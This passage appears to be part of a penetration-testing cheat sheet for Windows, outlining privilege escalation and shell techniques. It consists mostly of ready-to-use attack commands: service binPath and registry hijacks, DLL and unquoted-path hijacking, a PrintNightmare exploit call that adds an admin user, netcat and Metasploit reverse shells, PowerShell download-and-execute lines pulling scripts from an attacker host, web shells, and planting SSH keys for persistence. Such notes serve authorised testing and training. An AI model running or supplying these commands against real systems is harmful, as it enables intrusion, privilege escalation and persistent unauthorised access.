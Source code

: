                 *   `AUTO`                     → SeShutdown + `shutdown /r /t 0`
        *   Exploitation
            *   `icacls` → (F/M/W) File/Folder Permissions → Overwrite Binary / [DLL Hijack](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dll-hijacking)
            *   Unquoted Path                                                  → Malware in Folder
            *   BinPath Hijack
                *   `reg add HKLM\SYSTEM\CurrentControlSet\services\[SRV] /v ImagePath /t REG_EXPAND_SZ /d [MALWARE] /f`
                *   `sc config [SERVICE] binPath="[MALWARE/CMD]"`
                *   `sc config [SERVICE] depend=""`
                *   `sc config [SERVICE] obj=".\LocalSystem" password=""`
                *   Trigger Service
            *   PATH Hijacking
                *   Writable Folder       → `echo %PATH%`
                *   PowerUP                   → `FindPathDLLHijack`
                *   EXE/DLL In Folder   → Trigger Service
    *   Named Pipes
        *   `accesschk.exe /accepteula -w \\.\pipe\* -v` 
        *   Permissions → `GENERIC_WRITE / FILE_ALL_ACCESS`
        *   PrintNightmare
            *   `dir \\localhost\pipe\spoolss`
            *   `. .\CVE-2021-1675.ps1` → CalebStewart POC
            *   `Invoke-Nightmare -NewUser "hacker" -NewPassword "pass123" -DriverName "PrintMe"`
=======
*   Shells & Payloads
    *   Metasploit 
        *   `msfconsole` → `search [COMPONENT]` → `use [EXPLOIT]` → `options`
        *   `set payload windows/[EMPTY/X64]/shell/[BIND/REVERSE]_tcp` → Also `/meterpreter/` instead of `/shell/`
        *   `set payload windows/[EMPTY/X64]/shell_[BIND/REVERSE]_tcp`
    *   Web Shells
        *   `ls -la /usr/share/webshells` + [Public Repository](https://github.com/nicholasaleks/webshells)
        *   ASP / ASPX / PHP / PL / RB / CFM / JSP / [WAR (Tomcat Manager Endpoints)](https://0xdf.gitlab.io/2020/11/07/htb-tabby.html)
    *   SMB / WebDAV Execution
        *   `smbserv()`                                                                                  → Open Anonymous Server
        *   `cp /usr/share/windows-binaries/nc[32/64].exe .`      → Place NC in SMB Share
        *   `\\[KALI_IP]\nc64.exe -e cmd.exe [KALI_IP] [PORT]`  → Input NC Shell Payload
        *   WebDAV                                                                                    → `webdavserv()` → Server At: `\\[KALI_IP]:8000\DavWWWRoot\`  
    *   Powershell
        *   `powershell -e [B64_STRING]`                                                           → [B64 Reverse Shell](https://www.revshells.com/)
        *   `echo '[CMD]' | iconv -f ascii -t utf-16le | base64 -w0`  → CMD to PS-B64 Conversion
        *   Script / Shell Execution
            *   [Invoke-PowershellTcp](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)
            *   `httpserv()`
            *   `powershell -c iex(New-Object System.Net.WebClient).DownloadString('http://[KALI_IP]:8888/[SCRIPT]');[FUNCTION]`
        *   32/64-Bit Paths
            *   Try Both → `where powershell` / `set` → Infer Architecture
            *   `c:\windows\syswow64\windowspowershell\v1.0\powershell.exe`
            *   `c:\windows\sysnative\windowspowershell\v1.0\powershell.exe`
    *   Netcat Upload
        *   Transfer → `/usr/share/windows-binaries/nc[32/64].exe` 
        *   `nc.exe -e cmd.exe [KALI_IP] [PORT]`
    *   SSH Hijacking
        *   `ssh-keygen -t ed25519 -f [KEY_FILE]` → Paste in `C:\Users\[USERNAME]\.ssh\authorized_keys`
        *   `chmod 600 [KEY_FILE]`
        *   `ssh -i [KEY_FILE] [USER]@[IP]`
        *   After Compromising Administrator → Perform to create a SSH Access
    *   MSFVenom